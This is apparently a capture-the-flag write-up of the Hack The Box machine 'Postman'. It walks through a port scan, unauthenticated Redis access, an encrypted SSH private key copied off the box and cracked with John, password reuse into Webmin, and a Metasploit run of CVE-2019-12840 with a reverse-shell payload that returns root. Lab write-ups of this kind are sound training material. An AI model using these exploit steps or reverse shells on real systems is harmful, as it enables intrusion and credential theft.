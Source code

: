 # Postman

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.160

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Webmin
![webmin](./screenshots/webmin.png)

![webmin_login](./screenshots/webmin_login.png)

## Remote Redis Does Not Require Authentication
```
$ nc 10.10.10.160 6379
INFO
$2724
...
# Server
redis_version:4.0.9
...
```

## SSH Login via Authorized Key (Redis)
https://m0053sec.wordpress.com/2020/02/13/redis-remote-code-execution-rce/

```
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
```

## Encrypted RSA Private Key #1 (Matt)
```
redis@Postman:/dev/shm$ ls -l /opt/id_rsa.bak
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```

```
redis@Postman:/dev/shm$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
...
-----END RSA PRIVATE KEY-----
```

### Cracked The RSA Password Using JohnRipper
```
john matt_id_rsa.john --wordlist=/usr/share/wordlists/rockyou
...
computer2008     (ssh/matt_id_rsa) 
```

## Privilege Escalatio #1
Used the password of `SSH RSA private key` to login as `Matt` user.
```
redis@Postman:/opt$ su Matt
```

```
Matt@Postman:/opt$ id
uid=1000(Matt) gid=1000(Matt) groups=1000(Matt)
```

## The User Flag
```
Matt@Postman:~$ ls -l user.txt 
-rw-rw---- 1 Matt Matt 33 Apr  4 16:47 user.txt
```

```
Matt@Postman:~$ cat user.txt 
02505f44b4fbd37b91014930f2339824
```

## ## Encrypted RSA Private Key #2 (Matt)
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,4FC44D79F1BC0D141DB22CCB08108C44

O9bdxmDVMF8uvq6lHIN4Irz1aNQc56PBhYlnBu28FvDwG/CoXj47xuinWbrrpq5s
zWWtGo4wDI+Be4Z8Gb1DznUtpdjVdR34PjNyqh8EL9t5hUMSTvMIQFhy/byjGgKH
oDVh+MA7jMHHur8EoMiqeZq1hD1OXwA505Fr2riqNMtDqGNb82sIqTCeA8wlVQEE
FHeP0BfJn4gS2i4cPF2GBjpKUsh4s5urAPYfNinkfAv3Ugqnr9+8xWLJqDaTc9cG
HJ5VtOnt6gVeytkihRTyTDIl2kBMVvjWpzSus2ybjIHH+7FKpISme6VlH+ESL7d1
aWkH7rJjoi5tWO5MO0H1d5eXuyJFOpoqsW8jgegztKIYUYB6CIaTYa8Sc+Wr7XYn
...
```

### Cracked The RSA Password Using JohnRapper
```
john matt_2_id_rsa.john --fork=12 --wordlist=/usr/share/wordlists/rockyou.txt
...
computer2008     (matt_2_id_rsa)
...
```

## SimpleHTTPServer
```
redis@Postman:/var/www$ ls -l SimpleHTTPPutServer.py 
-rw-rw-r-- 1 Matt Matt 482 Aug 25  2019 SimpleHTTPPutServer.py
```

```python
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))


if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

## Webmin Setup Output
```
redis@Postman:/$ ls -l webmin-setup.out 
-rw-r--r-- 1 root root 2086 Aug 25  2019 webmin-setup.out
```

```
Web server port (default 10000): Login name (default admin): Login password: ***********************************************************************
```

## Webmin Panel Login
Used the `password of RSA keys` and the username `Matt` to log in to Webmin panel.

```
Matt: computer2008
```

![webmin_panel](./screenshots/webmin_panel.png)

## Privileged RCE via Package Updates (Webmin)
In `Webmin` through `1.910`, any user authorized to the "Package Updates" module can execute arbitrary commands with `root privileges` via the data parameter to update.cgi.

https://nvd.nist.gov/vuln/detail/CVE-2019-12840

https://www.cvedetails.com/cve/CVE-2019-12840/?q=CVE-2019-12840

https://www.exploit-db.com/exploits/46984

```
msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
password => computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
username => Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set payload cmd/unix/reverse_python 
payload => cmd/unix/reverse_python
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => 10.10.14.33
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts postman
rhosts => postman
```

```
msf6 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.33:4444 
[+] Session cookie: 27e85b836d61b08515e38ad8c16fa1f9
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.33:4444 -> 10.10.10.160:47404) at 2021-04-05 17:02:18 +0300
```

```
msf6 exploit(linux/http/webmin_packageup_rce) > sessions -i 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
ls -l /root/
total 8
drwxrwxr-x 6 root root 4096 Oct  2  2019 redis-5.0.0
-rw-r--r-- 1 root root   33 Apr  4 16:47 root.txt
```

```
cat /root/root.txt
d8d9bff3c8d306e00c163fd192338562
```

